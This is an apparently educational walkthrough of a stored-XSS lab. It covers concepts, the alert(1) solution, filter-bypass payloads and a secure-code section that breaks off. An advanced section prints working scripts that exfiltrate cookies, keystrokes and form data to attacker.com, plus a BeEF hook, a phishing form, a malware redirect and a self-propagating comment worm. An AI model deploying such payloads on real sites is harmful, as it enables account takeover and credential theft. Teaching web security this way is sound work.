

---

**Difficulty:** 🟢 Apprentice

**Goal:**

- 🔍 Understand stored (persistent) XSS vulnerabilities
- 🎯 Identify vulnerable comment functionality
- 🔎 Exploit lack of input sanitization and output encoding
- 📊 Inject malicious JavaScript into database
- 🔐 Execute JavaScript for all users viewing the page
- 💡 Learn how stored XSS differs from reflected XSS
- 🗝️ Trigger alert() function to prove exploitation
- ✅ Complete the lab with persistent XSS attack

---

## 🧠 **Concept Recap**

> **Stored Cross-Site Scripting (XSS)** occurs when an application receives data from an untrusted source and includes that data in its later HTTP responses in an unsafe way. The malicious data is stored permanently (in a database, file system, or other storage) and executed whenever users view the affected page. This makes stored XSS more dangerous than reflected XSS because it affects all users who view the compromised content.

### 📊 **The Vulnerability**

**What is Stored XSS?**

```HTML
Stored XSS Attack Flow:

Step 1: Attacker submits malicious input
    ↓
"<script>alert(1)</script>" → Submitted via comment form

Step 2: Application stores input in database
    ↓
Database: comments table
├── comment_text: "<script>alert(1)</script>"
├── author: "Attacker"
└── timestamp: "2025-02-04"

Step 3: Victim requests the page
    ↓
User visits: /blog/post/123

Step 4: Application retrieves data from database
    ↓
SELECT comment_text FROM comments WHERE post_id = 123

Step 5: Application includes data in response (No Encoding!)
    ↓
<div class="comment">
  <p><script>alert(1)</script></p>
</div>

Step 6: Victim's browser executes the script
    ↓
Browser parses HTML → Encounters <script> → Executes JavaScript ⚠️

The Problem:
└── Malicious script stored permanently
    └── Executes for EVERY user who views the page
    └── No user interaction needed (unlike reflected XSS)
    └── Can affect thousands of victims
```

**Stored vs Reflected XSS:**

```HTML
Reflected XSS (Previous Lab):
├── Payload in URL parameter
├── Immediate execution (same request/response)
├── Affects only users who click malicious link
├── Requires social engineering
├── One victim at a time
└── Example: /search?q=<script>alert(1)</script>

Stored XSS (This Lab):
├── Payload stored in database
├── Delayed execution (separate request)
├── Affects ALL users who view the page
├── No social engineering needed after initial injection
├── Multiple victims automatically
└── Example: Comment stored in DB → Everyone sees it

Key Differences:

Persistence:
├── Reflected: Non-persistent (URL only)
└── Stored: Persistent (database/storage)

Attack Vector:
├── Reflected: Victim must click attacker's link
└── Stored: Automatic execution when viewing page

Scope of Impact:
├── Reflected: Single victim per link
└── Stored: All visitors to the page

Detection Difficulty:
├── Reflected: Easier to spot (in URL)
└── Stored: Harder to detect (in database)

Severity:
├── Reflected: Medium to High
└── Stored: High to Critical
```

**Vulnerable Code Pattern:**

```python
# Vulnerable Application (Conceptual)

# Step 1: Store comment without sanitization
def post_comment(request):
    comment = request.POST.get('comment')
    name = request.POST.get('name')
    
    # ❌ DANGEROUS: Store unsanitized user input
    db.execute(
        "INSERT INTO comments (text, author) VALUES (?, ?)",
        (comment, name)  # No sanitization!
    )
    
    return redirect('/blog/post/123')

# Step 2: Display comments without encoding
def view_post(request, post_id):
    comments = db.execute(
        "SELECT text, author FROM comments WHERE post_id = ?",
        (post_id,)
    )
    
    html = "<div class='comments'>"
    for comment in comments:
        # ❌ DANGEROUS: Direct output without encoding
        html += f"<p>{comment['text']}</p>"
    html += "</div>"
    
    return HttpResponse(html)

What happens:
├── Attacker submits: <script>alert(1)</script>
├── Stored in DB: <script>alert(1)</script>
├── Retrieved from DB: <script>alert(1)</script>
├── Output in HTML: <script>alert(1)</script>
├── Browser executes: alert(1)
└── Every visitor gets attacked! ⚠️
```

**Attack Vector Breakdown:**

```HTML
The Payload: <script>alert(1)</script>

Injection Point: Comment form
├── Comment text field
├── Name field
├── Email field
└── Website field (any might be vulnerable)

Storage Location: Database
├── comments table
├── blog_posts table
├── user_profiles table
└── Any persistent storage

Execution Point: Blog post page
├── When any user views the post
├── When comments are loaded
├── Automatic execution
└── No additional user action needed

Impact Scope:
├── Admin views page → Compromised
├── Regular user views page → Compromised
├── Anonymous visitor views page → Compromised
└── EVERYONE who views the page is affected!

Why it's more dangerous than reflected XSS:
└── One injection → Multiple victims
    └── Persistent attack
    └── Harder to remove
    └── Greater impact
    └── Affects trust in website
```

**Real-World Stored XSS Scenarios:**

```
Common Vulnerable Features:

1. Comment Systems
   ├── Blog comments (this lab)
   ├── Product reviews
   ├── Forum posts
   └── Social media comments

2. User Profiles
   ├── Bio/description fields
   ├── Username display
   ├── Profile pictures (file metadata)
   └── Social links

3. Message Systems
   ├── Private messages
   ├── Chat applications
   ├── Email web clients
   └── Notification messages

4. Content Management
   ├── Blog post content
   ├── Wiki pages
   ├── News articles
   └── User-generated content

5. File Uploads
   ├── File names displayed
   ├── File descriptions
   ├── SVG files (contain XML/scripts)
   └── HTML file uploads

Each becomes a persistent attack vector if not properly sanitized!
```

**Real-World Impact:**

```HTML
What attackers achieve with Stored XSS:

1. Mass Cookie Theft
   └── Script: <script>fetch('evil.com?c='+document.cookie)</script>
   └── Impact: Steal sessions of ALL users
   └── Result: Mass account takeover

2. Worm/Self-Propagating XSS
   └── Script posts itself to more comments
   └── Each victim becomes attacker
   └── Viral spread across platform
   └── Example: Samy worm (MySpace 2005)

3. Defacement
   └── Replace page content for all users
   └── Damage brand reputation
   └── Insert political/malicious messages
   └── Persistent until cleaned

4. Cryptocurrency Mining
   └── Inject crypto-mining JavaScript
   └── Uses CPU of all visitors
   └── Passive income for attacker
   └── Slows down victim browsers

5. Admin Compromise
   └── Admin views infected page
   └── XSS steals admin session
   └── Attacker gains admin access
   └── Full site compromise

6. Phishing at Scale
   └── Inject fake login forms
   └── All users see malicious form
   └── Harvest credentials en masse
   └── Trusted site used against users
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Access Lab Environment**

1. 🌐 Click **"Access the lab"** button
2. 🔐 Configure Burp Suite proxy (optional - for traffic analysis)
3. 📱 Wait for lab environment to fully initialize

**Lab interface:**

```
Lab Environment
├── Blog/article website loads
├── Multiple blog posts visible
├── Each post has comment section
├── Navigation menu
└── Comment form at bottom of posts
```

4. ✅ Lab is ready when page fully loads

**Expected homepage:**

```
Blog Homepage
├── Header/Navigation
├── Blog post listings
│   ├── Post 1: Title + excerpt
│   ├── Post 2: Title + excerpt
│   └── Post 3: Title + excerpt
├── "View post" links
└── Footer
```

---

### 📝 **Step 2 — Navigate to a Blog Post**

1. 👀 Look for blog post listings on the homepage
2. 🖱️ Click on any **"View post"** or blog post title link

**Blog post selection:**

```r
Available Posts:
├── [View post] → First blog post
├── [View post] → Second blog post
├── [View post] → Third blog post
└── Click any one to access

Typical URL structure:
/post?postId=1
/post?postId=2
/post?postId=3
```

3. ✅ You should now be viewing a single blog post

**Blog post page:**

```
Blog Post View
┌────────────────────────────────────┐
│  Post Title                        │
│  ─────────────────────────────     │
│                                    │
│  Blog post content goes here...    │
│  Multiple paragraphs of text.      │
│                                    │
│  Posted by: Admin                  │
│  Date: 2025-02-04                  │
└────────────────────────────────────┘

Comments Section (Below Post)
┌────────────────────────────────────┐
│  📝 Leave a comment                │
│                                    │
│  [Comment text area]               │
│  [Name field]                      │
│  [Email field]                     │
│  [Website field]                   │
│  [Post comment button]             │
└────────────────────────────────────┘

Existing comments may appear above form
```

---

### 🔍 **Step 3 — Locate Comment Functionality**

1. 📜 Scroll down to the bottom of the blog post
2. 🔎 Find the **"Leave a comment"** section

**Comment form structure:**

```
Comment Form
┌────────────────────────────────────┐
│  Leave a Comment                   │
│  ─────────────────────────────     │
│                                    │
│  Comment:                          │
│  ┌──────────────────────────────┐  │
│  │ [Text area for comment]      │  │
│  │                              │  │
│  │                              │  │
│  └──────────────────────────────┘  │
│                                    │
│  Name:                             │
│  [________________]                │
│                                    │
│  Email:                            │
│  [________________]                │
│                                    │
│  Website:                          │
│  [________________]                │
│                                    │
│  [Post Comment]                    │
└────────────────────────────────────┘

Key observations:
├── Comment field: Large text area (main target)
├── Name field: Text input
├── Email field: Text input
├── Website field: Text input
└── All fields potentially vulnerable
```

**HTML structure (View Source):**

```html
<form action="/post/comment" method="POST">
  <textarea name="comment" rows="5" cols="50"></textarea>
  <input type="text" name="name" placeholder="Name">
  <input type="email" name="email" placeholder="Email">
  <input type="text" name="website" placeholder="Website">
  <button type="submit">Post Comment</button>
</form>
```

---

### 🧪 **Step 4 — Test for Input Storage and Reflection**

**Try a safe test comment first:**

1. ✏️ Click in the **Comment** text area
2. 📝 Type: `This is a test comment`
3. ✏️ Fill in **Name**: `TestUser`
4. ✏️ Fill in **Email**: `test@test.com`
5. ✏️ Fill in **Website**: `http://test.com`
6. 🔍 Click **Post Comment**

**Observe what happens:**

```
After submitting:
├── Page redirects or reloads
├── Comment appears on the page
├── Your comment is now visible:

┌────────────────────────────────────┐
│  TestUser                          │
│  ─────────────                     │
│  This is a test comment            │
│                                    │
│  Posted: Just now                  │
└────────────────────────────────────┘

Confirmation:
└── Comment was stored ✓
    └── Comment is displayed ✓
    └── Persists on page refresh ✓
    └── Visible to all visitors ✓
```

**Verify persistence:**

```
Test 1: Refresh the page
├── Press F5 or reload
├── Comment still appears ✓
└── Confirms: Stored in database

Test 2: Open in new tab/window
├── Navigate to same blog post
├── Comment appears there too ✓
└── Confirms: Not session-specific

Test 3: View from different browser (optional)
├── Open in incognito/private mode
├── Comment visible ✓
└── Confirms: Persistent storage
```

---

### 🔬 **Step 5 — Test for HTML Encoding**

**Test with HTML special characters:**

1. ✏️ Create a new comment
2. 📝 In the **Comment** field, type: `<test>`
3. ✏️ Fill in **Name**: `TestUser2`
4. ✏️ Fill in **Email**: `test@test.com`
5. ✏️ Fill in **Website**: `http://test.com`
6. 🔍 Click **Post Comment**

**Analyze the response:**

```HTML
If properly encoded (SAFE):
─────────────────────────────────────
TestUser2
─────────────────────────────────────
<test>
─────────────────────────────────────
Browser displays: <test> as text
View Source shows: &lt;test&gt;
Result: Encoded = Not vulnerable ✗

If NOT encoded (VULNERABLE):
─────────────────────────────────────
TestUser2
─────────────────────────────────────
(Nothing visible or broken HTML)
─────────────────────────────────────
View Source shows: <test>
Result: NOT encoded = Vulnerable! ✓

How to verify:
└── Right-click → "View Page Source"
    └── Find your comment in the HTML
    └── Look for: <test> (raw) or &lt;test&gt; (encoded)
    └── If raw = Vulnerable to XSS
```

**In this lab:**

```
Expected result:
└── <test> appears as raw HTML in source
    └── No encoding applied
    └── HTML special characters not escaped
    └── Vulnerable to stored XSS ✓
```

---

### 🎯 **Step 6 — Craft XSS Payload**

**The classic stored XSS payload:**

```javascript
<script>alert(1)</script>
```

**Why this payload works:**

```HTML
Payload Components:

<script>
├── HTML script tag
├── Tells browser to execute JavaScript
├── Self-closing or needs </script>
└── Browser's JavaScript engine activates

alert(1)
├── JavaScript function
├── Creates modal alert dialog
├── Argument: 1 (any value works)
├── Proof of JavaScript execution
└── Lab detection mechanism

</script>
├── Closing tag
├── Completes the script element
├── Proper HTML syntax
└── Ends JavaScript block

Execution Flow:
1. Payload stored in database
   └── comment_text = "<script>alert(1)</script>"

2. Page loads and retrieves comments
   └── SELECT comment_text FROM comments

3. Comments inserted into HTML
   └── <div class="comment"><script>alert(1)</script></div>

4. Browser parses HTML
   └── Encounters <script> tag

5. Browser executes JavaScript
   └── Calls alert(1) function

6. Alert box appears
   └── Proof of successful XSS ✓

Alternative payloads that also work:
├── 
├── <svg onload=alert(1)>
├── <body onload=alert(1)>
├── <iframe src="javascript:alert(1)">
└── <details open ontoggle=alert(1)>

For this lab, use: <script>alert(1)</script>
```

---

### 💉 **Step 7 — Inject Stored XSS Payload**

**Execute the stored XSS attack:**

1. ✏️ Scroll to the comment form
2. 📝 In the **Comment** field, enter:
    

```js
<script>alert(1)</script>
```

    
3. ✏️ Fill in **Name**: `Attacker` (or any name)
4. ✏️ Fill in **Email**: `attacker@evil.com` (or any email)
5. ✏️ Fill in **Website**: `http://evil.com` (or any URL)
6. 🔍 Click **Post Comment**

**Form submission:**

```HTML
Comment Form Fields:
┌────────────────────────────────────┐
│  Comment:                          │
│  ┌──────────────────────────────┐  │
│  │ <script>alert(1)</script>    │  │
│  └──────────────────────────────┘  │
│                                    │
│  Name: Attacker                    │
│  Email: attacker@evil.com          │
│  Website: http://evil.com          │
│                                    │
│  [Post Comment] ← Click here       │
└────────────────────────────────────┘

What happens internally:
├── Browser sends POST request
├── Server receives: comment = "<script>alert(1)</script>"
├── Server stores in database (no sanitization)
├── Page redirects/reloads
└── Comments retrieved and displayed
```

---

### ✅ **Step 8 — Verify Stored XSS Execution**

**After clicking "Post Comment":**

```HTML
Scenario 1: Immediate Execution
├── Page reloads after comment submission
├── Comments retrieved from database
├── Your malicious comment included in HTML
├── Browser parses the HTML
├── Encounters: <script>alert(1)</script>
├── Executes: alert(1)
└── Alert box appears immediately! 💥

┌─────────────────────────────┐
│  ⚠️ This page says:         │
│                             │
│  1                          │
│                             │
│         [  OK  ]            │
└─────────────────────────────┘

This proves:
├── JavaScript executed ✓
├── Stored XSS successful ✓
├── Payload persisted in database ✓
└── Will execute for ALL future visitors ✓
```

**If alert doesn't appear immediately:**

```
Scenario 2: Navigation Required
├── Some labs require you to navigate back
├── Follow the lab instructions:
└── "Go back to the blog"

Steps:
1. Click browser back button
   └── OR click "Back to blog" link
   └── OR navigate to the blog post URL manually

2. View the blog post with your comment
   └── Comments load from database
   └── Your XSS payload loads
   └── Alert appears! 💥

Why this happens:
└── Some apps redirect after comment submission
    └── Redirect happens before comment display
    └── Need to navigate back to see stored comments
    └── Once viewed, XSS executes
```

**Click OK on the alert:**

```
After clicking OK:
└── Alert closes
    └── Page finishes rendering
    └── Your comment visible on page
    └── Lab system detected alert() execution
    └── Lab may auto-complete now
```

---

### 🏆 **Step 9 — Lab Completion**

**Automatic verification:**

```
Lab System Detection:
├── Monitors for alert() execution
├── Detects: Alert box was triggered
├── Validates: Stored XSS successfully executed
├── Checks: Payload stored and executed from storage
└── Marks lab as: SOLVED ✓

Success Banner:
┌──────────────────────────────────────┐
│  ✅ Congratulations!                 │
│                                      │
│  You solved the lab:                 │
│  Stored XSS into HTML context        │
│  with nothing encoded                │
│                                      │
│  Lab Status: SOLVED ✓                │
└──────────────────────────────────────┘
```

**Persistence verification:**

```
Test the persistent nature:

1. Refresh the page
   ├── Alert appears again! ✓
   └── Proves: Stored permanently

2. Open in new tab
   ├── Navigate to same blog post
   ├── Alert appears! ✓
   └── Proves: Affects all viewers

3. Open in different browser (if available)
   ├── Visit same blog post URL
   ├── Alert appears! ✓
   └── Proves: Not session-specific

This demonstrates:
└── Stored XSS persists
    └── Every visitor gets attacked
    └── No additional action needed
    └── More dangerous than reflected XSS
```

---

## 🔗 **Complete Attack Chain**

```r
Step 1: Access lab environment
         ├── Click "Access the lab"
         ├── Wait for blog site to load
         └── Homepage with blog posts appears
         ↓
Step 2: Navigate to blog post
         ├── Click "View post" on any blog entry
         ├── Blog post page loads
         └── Comment section visible at bottom
         ↓
Step 3: Locate comment form
         ├── Scroll to "Leave a comment"
         ├── Observe form fields:
         │   ├── Comment (text area)
         │   ├── Name (text input)
         │   ├── Email (text input)
         │   └── Website (text input)
         └── Comment form ready for input
         ↓
Step 4: Test normal comment
         ├── Enter: "This is a test comment"
         ├── Fill name, email, website
         ├── Click: Post Comment
         ├── Comment appears on page ✓
         └── Confirms: Storage and display work
         ↓
Step 5: Test for encoding
         ├── Submit comment: "<test>"
         ├── View page source
         ├── Check: Raw <test> or &lt;test&gt;?
         ├── Result: Raw <test> visible
         └── No encoding = Vulnerable! ✓
         ↓
Step 6: Craft XSS payload
         ├── Payload: <script>alert(1)</script>
         ├── Will be stored in database
         ├── Will execute for all viewers
         └── Ready to inject
         ↓
Step 7: Inject stored XSS
         ├── Comment field: <script>alert(1)</script>
         ├── Name: Attacker
         ├── Email: attacker@evil.com
         ├── Website: http://evil.com
         └── Click: Post Comment
         ↓
Step 8: Observe execution
         ├── Page reloads or redirects
         ├── Navigate back to blog post (if needed)
         ├── Comments load from database
         ├── Malicious comment included in HTML
         ├── Browser encounters: <script> tag
         ├── Executes: alert(1)
         ├── Alert box appears! 💥
         └── Stored XSS confirmed! ✓
         ↓
Step 9: Verify persistence
         ├── Click: OK on alert
         ├── Refresh: Page → Alert appears again ✓
         ├── New tab: Alert appears ✓
         └── Proves: Permanently stored
         ↓
Step 10: Lab completion
         ├── Lab system: Detects alert()
         ├── Validation: Stored XSS verified
         ├── Status: SOLVED ✓
         └── Success banner appears
         ↓
Step 11: Lab complete! 🎉
         ├── Stored XSS vulnerability exploited
         ├── Malicious script persists in database
         ├── All future visitors will be affected
         └── Stored XSS mastered!
```

---

## 📚 **Understanding Stored XSS**

### **What is Stored XSS?**

```js
Stored XSS Definition:

A web security vulnerability where:
├── Malicious script submitted by attacker
├── Stored permanently (database/file system)
├── Included in later HTTP responses
├── Executed in browsers of all users who view it
└── Also called: Persistent XSS, Type-II XSS

Characteristics:
├── Persistent (survives server restart)
├── Affects multiple victims automatically
├── No social engineering needed after injection
├── Higher impact than reflected XSS
├── Harder to detect and remediate
└── Critical severity vulnerability

Storage Locations:
├── Database tables (comments, posts, profiles)
├── File system (uploaded files, logs)
├── Application cache
├── Session storage (less common)
└── Any persistent data store

Execution Triggers:
├── User views affected page
├── Admin accesses admin panel
├── Search results display stored data
├── Email client renders stored messages
└── Any retrieval and display of stored data

Severity: CRITICAL
└── Can compromise entire user base
    └── Worm potential (self-propagating)
    └── Mass data theft
    └── Complete site compromise via admin attack
```

### **How Stored XSS Differs from Reflected XSS**

```HTML
Comparison Matrix:

┌─────────────────────┬──────────────────┬──────────────────┐
│    Characteristic   │  Reflected XSS   │   Stored XSS     │
├─────────────────────┼──────────────────┼──────────────────┤
│ Payload Location    │ URL/Request      │ Database         │
│ Persistence         │ Non-persistent   │ Persistent       │
│ Delivery Method     │ Malicious link   │ Normal browsing  │
│ Victim Count        │ One at a time    │ Multiple/all     │
│ Social Engineering  │ Required         │ Not required     │
│ Attack Complexity   │ Simple           │ Simple           │
│ Impact Scope        │ Limited          │ Wide             │
│ Detection           │ Easier (in URL)  │ Harder (in DB)   │
│ Severity            │ Medium-High      │ High-Critical    │
│ Cleanup             │ None needed      │ Requires DB edit │
└─────────────────────┴──────────────────┴──────────────────┘

Attack Scenario Comparison:

Reflected XSS:
1. Attacker crafts URL: site.com/search?q=<script>alert(1)</script>
2. Attacker sends link to victim (email/social media)
3. Victim clicks link
4. Victim's browser executes script
5. One victim compromised

Stored XSS:
1. Attacker submits comment: <script>alert(1)</script>
2. Script stored in database
3. All users who view the page are affected
4. No additional attacker action needed
5. Hundreds/thousands of victims compromised

Key Insight:
└── Stored XSS is "fire and forget"
    └── One injection → Ongoing attacks
    └── Self-sustaining compromise
    └── Greater ROI for attackers
```

### **Why "Nothing Encoded" is Critical**

```js
Encoding Explained:

HTML Encoding Converts:
├── < to &lt;
├── > to &gt;
├── & to &amp;
├── " to &quot;
├── ' to &#x27;
└── Prevents browser from interpreting as code

Without Encoding (This Lab):

Input Storage:
├── User inputs: <script>alert(1)</script>
├── Stored in DB: <script>alert(1)</script>
└── No transformation ⚠️

Output Display:
├── Retrieved from DB: <script>alert(1)</script>
├── Inserted into HTML: <script>alert(1)</script>
├── No encoding applied ⚠️
└── Browser interprets as executable code!

With Proper Encoding:

Input Storage:
├── User inputs: <script>alert(1)</script>
├── Stored in DB: <script>alert(1)</script>
└── (Can store as-is, encoding happens on output)

Output Display:
├── Retrieved from DB: <script>alert(1)</script>
├── Encoded for HTML: &lt;script&gt;alert(1)&lt;/script&gt;
├── Browser displays: <script>alert(1)</script>
└── Displayed as TEXT, not executed ✓

Critical Point:
└── Encoding MUST happen at OUTPUT
    └── Not at input/storage
    └── Context-specific encoding
    └── Every output point must be encoded
    └── Missing even one output = vulnerability
```

### **Common Stored XSS Locations**

```
Vulnerable Application Features:

1. Comment Systems (This Lab)
   ├── Blog comments
   ├── Product reviews
   ├── Forum posts
   ├── Guestbooks
   └── Feedback forms
   
   Why vulnerable:
   └── User-generated content
       └── Displayed to many users
       └── Often minimal validation
       └── Rich text formatting allowed

2. User Profiles
   ├── Biography/About me
   ├── Display name
   ├── Profile picture alt text
   ├── Social media links
   └── Custom profile fields
   
   Why vulnerable:
   └── Viewed by many users
       └── Trusted content assumption
       └── Profile pages often public

3. Private Messaging
   ├── Direct messages
   ├── Chat applications
   ├── Notification systems
   └── Email web clients
   
   Why vulnerable:
   └── HTML rendering in messages
       └── Trusted sender assumption
       └── Limited security scrutiny

4. User-Generated Content
   ├── Wiki pages
   ├── Blog posts (user blogs)
   ├── Article submissions
   ├── Code snippets
   └── File descriptions
   
   Why vulnerable:
   └── Allows HTML/formatting
       └── Stored long-term
       └── Viewed by many users

5. Search Features
   ├── Saved searches
   ├── Search history
   ├── Recent searches display
   └── Search suggestions
   
   Why vulnerable:
   └── Search terms stored and displayed
       └── Often overlooked in security review

6. File Uploads
   ├── Filename display
   ├── File metadata (EXIF)
   ├── SVG files (contain XML/scripts)
   ├── HTML file uploads
   └── Document previews
   
   Why vulnerable:
   └── File data stored and displayed
       └── SVG files can contain <script>
       └── Filenames shown to users

7. Error Messages
   ├── Custom error pages
   ├── Validation errors
   ├── System logs displayed to users
   └── Debug information
   
   Why vulnerable:
   └── User input reflected in errors
       └── Stored in logs
       └── Displayed to admins/users
```

---

## 🔬 **Advanced Topics**

### **Self-Propagating XSS Worms**

```r
// Advanced: Self-Propagating Stored XSS

// Historical Example: Samy Worm (MySpace, 2005)
// This is educational - DO NOT use maliciously!

// Worm payload that posts itself in comments
<script>
// 1. Steal current user's session
var session = document.cookie;

// 2. Create new comment with this same payload
var payload = '<script>' + 
  'var s=document.cookie;' +
  'fetch("/post-comment",{method:"POST",body:"comment="+encodeURIComponent(document.currentScript.innerHTML)});' +
  '</' + 'script>';

// 3. Post the payload as a new comment
fetch('/post-comment', {
  method: 'POST',
  headers: {'Content-Type': 'application/x-www-form-urlencoded'},
  body: 'comment=' + encodeURIComponent(payload)
});

// 4. Every infected user posts the worm
// Result: Exponential spread across platform
</script>

How it spreads:
1. Attacker posts worm to one comment
   └── 10 users view it → 10 infected

2. Each infected user posts worm
   └── 10 × 10 = 100 users infected

3. Continues exponentially
   └── 100 → 1,000 → 10,000 → 100,000...

4. Entire platform infected rapidly
   └── Within hours/minutes

Real-world impact:
├── Samy worm: 1 million MySpace profiles in 20 hours
├── Twitter worm (2009): Thousands infected
├── TweetDeck XSS (2014): Retweeted itself
└── Each demonstrates stored XSS severity

Prevention:
└── Proper output encoding
    └── Rate limiting on actions
    └── Content Security Policy (CSP)
    └── Input validation (defense in depth)
```

### **Bypassing Basic XSS Filters**

```r
// If <script> tag is filtered, try alternatives:

// 1. Image tag with onerror


// 2. SVG with onload
<svg onload=alert(1)>

// 3. Body tag with onload
<body onload=alert(1)>

// 4. Iframe with javascript: protocol
<iframe src="javascript:alert(1)">

// 5. Details/summary with ontoggle
<details open ontoggle=alert(1)>

// 6. Input with autofocus and onfocus
<input autofocus onfocus=alert(1)>

// 7. Marquee with onstart
<marquee onstart=alert(1)>

// 8. Video/audio with onerror
<video src=x onerror=alert(1)>
<audio src=x onerror=alert(1)>

// 9. Case variations (if filter is case-sensitive)
<ScRiPt>alert(1)</ScRiPt>
<SCRIPT>alert(1)</SCRIPT>

// 10. HTML encoding (sometimes works)
<script>&#97;lert(1)</script>

// 11. Event handlers in various tags
<div onmouseover=alert(1)>hover me</div>
<button onclick=alert(1)>click me</button>

// 12. Using data: protocol
<object data="data:text/html,<script>alert(1)</script>">

// The lab with "nothing encoded" accepts basic <script>,
// but these alternatives are useful for bypassing filters
```

### **Exploiting Stored XSS for Maximum Impact**

```r
// Beyond alert(), real attacks do:

// 1. Session Hijacking (Cookie Theft)
<script>
fetch('https://attacker.com/steal', {
  method: 'POST',
  body: JSON.stringify({
    cookies: document.cookie,
    url: location.href,
    user: document.querySelector('.username')?.innerText
  })
});
</script>

// 2. Keylogging
<script>
document.addEventListener('keypress', function(e) {
  fetch('https://attacker.com/log?key=' + e.key + '&page=' + location.href);
});
</script>

// 3. Form Hijacking (Credential Theft)
<script>
document.addEventListener('submit', function(e) {
  e.preventDefault();
  var formData = new FormData(e.target);
  fetch('https://attacker.com/steal-form', {
    method: 'POST',
    body: formData
  });
  e.target.submit(); // Submit normally to avoid suspicion
});
</script>

// 4. Cryptocurrency Mining
<script src="https://attacker.com/cryptominer.js"></script>
<script>
// Uses visitor's CPU to mine cryptocurrency
// Slows down their browser
// Generates passive income for attacker
</script>

// 5. Admin Account Takeover
<script>
// If admin views this comment, steal their session
if (document.querySelector('.admin-panel')) {
  fetch('https://attacker.com/admin-cookie', {
    method: 'POST',
    body: document.cookie
  });
}
</script>

// 6. Defacement
<script>
document.body.innerHTML = `
  <h1>This site has been hacked!</h1>
  <p>All your data belongs to us.</p>
  
`;
</script>

// 7. Phishing (Fake Login Form)
<script>
// Inject convincing fake login form
document.body.innerHTML = `
  <style>
    .fake-login {
      max-width: 400px;
      margin: 100px auto;
      padding: 20px;
      border: 1px solid #ccc;
      border-radius: 5px;
    }
  </style>
  <div class="fake-login">
    <h2>Session Expired - Please Login</h2>
    <form action="https://attacker.com/phish" method="POST">
      <input name="username" placeholder="Username" required><br><br>
      <input type="password" name="password" placeholder="Password" required><br><br>
      <button type="submit">Login</button>
    </form>
  </div>
`;
</script>

// 8. Redirecting to Malware
<script>
// Redirect all visitors to malware site
setTimeout(function() {
  location.href = 'https://attacker.com/malware-download';
}, 3000); // Wait 3 seconds before redirect
</script>

// 9. Screenshot/Data Exfiltration
<script>
// Capture screenshot using HTML2Canvas
fetch('https://html2canvas.hertzen.com/dist/html2canvas.min.js')
  .then(r => r.text())
  .then(eval)
  .then(() => html2canvas(document.body))
  .then(canvas => {
    canvas.toBlob(blob => {
      var formData = new FormData();
      formData.append('screenshot', blob);
      fetch('https://attacker.com/screenshots', {
        method: 'POST',
        body: formData
      });
    });
  });
</script>

// 10. BeEF Hook (Browser Exploitation Framework)
<script src="https://attacker.com:3000/hook.js"></script>
// Gives attacker full control over victim's browser
```

### **Stored XSS in Different Contexts**

```r
<!-- 1. HTML Context (This Lab) -->
<!-- Payload injected between HTML tags -->
<div class="comment">
  <script>alert(1)</script>  <!-- Executes directly -->
</div>

<!-- 2. Attribute Context -->
<!-- Payload in HTML attribute -->

<!-- Attack: " onerror=alert(1) // -->
<!-- Result:  -->

<!-- 3. JavaScript Context -->
<!-- Payload in JavaScript code -->
<script>
  var username = "user-input-here";
</script>
<!-- Attack: "; alert(1); // -->
<!-- Result: var username = ""; alert(1); //"; -->

<!-- 4. URL Context -->
<!-- Payload in href or src -->
<a href="user-input-here">Click</a>
<!-- Attack: javascript:alert(1) -->
<!-- Result: <a href="javascript:alert(1)">Click</a> -->

<!-- 5. CSS Context -->
<!-- Payload in style attribute -->
<div style="background: user-input-here">
</div>
<!-- Attack: red; } </style><script>alert(1)</script><style> -->

<!-- Each context requires different encoding! -->
```

---
---

## 🛡️ **How to Fix (Secure Code)**

---

### **Fix 1: Output Encoding (Primary Defense)**

```python
# ❌ VULNERABLE - No output encoding
from flask import Flask, request, g
import sqlite3

@app.route('/post-comment', methods=['POST'])
def post_comment():
    comment = request.form.get('comment')
    name = request.form.get('name')
    
    # Store in database (OK to store raw data)
    db = get_db()
    db.execute(
        'INSERT INTO comments (text, author) VALUES (?, ?)',
        (comment, name)
    )
    db.commit()
    return redirect('/blog/post/1')

@app.route('/blog/post/<int:post_id>')
def view_post(post_id):
    db = get_db()
    comments = db.execute(
        'SELECT text, author FROM comments WHERE post_id = ?',
        (post_id,)
    ).fetchall()
    
    # ❌ DANGEROUS: Direct output without encoding
    html = '<div class="comments">'
    for comment in comments:
        html += f'<div><strong>{comment["author"]}</strong>'
        html += f'<p>{comment["text"]}</p></div>'  # VULNERABLE!
    html += '</div>'
    
    return html

# ✅ SECURE - HTML encoding at output
from flask import Flask, request, render_template_string
from markupsafe import escape

@app.route('/blog/post/<int:post_id>')
def view_post_secure(post_id):
    db = get_db()
    comments = db.execute(
        'SELECT text, author FROM comments WHERE post_id = ?',
        (post_id,)
    ).fetchall()
    
    # Encode output using escape()
    html = '<div class="comments">'
    for comment in comments:
        # HTML encode each piece of user data
        safe_author = escape(comment["author"])
        safe_text = escape(comment["text"])
        html += f'<div><strong>{safe_author}</strong>'
        html += f'<p>{safe_text}</p></div>'
    html += '</div>'
    
    return html

# ✅ EVEN BETTER - Use template engine with auto-escaping
